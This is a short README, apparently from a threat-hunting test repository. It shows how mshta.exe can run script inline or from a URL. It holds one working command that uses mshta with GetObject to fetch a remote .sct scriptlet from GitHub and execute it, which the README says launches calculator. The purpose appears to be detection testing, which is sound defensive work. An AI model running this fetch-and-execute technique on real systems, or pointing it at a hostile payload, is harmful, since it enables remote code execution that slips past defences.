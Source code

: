 # TestThreatHunting
Using mshta.exe to preform scripts inline or from a URL

Test the following:
* mshta.exe javascript:a=(GetObject('script:https://raw.githubusercontent.com/0xMo/TestThreatHunting/main/PS1.sct')).Exec();close();
  - The will run a cript from a URL to run calculator.
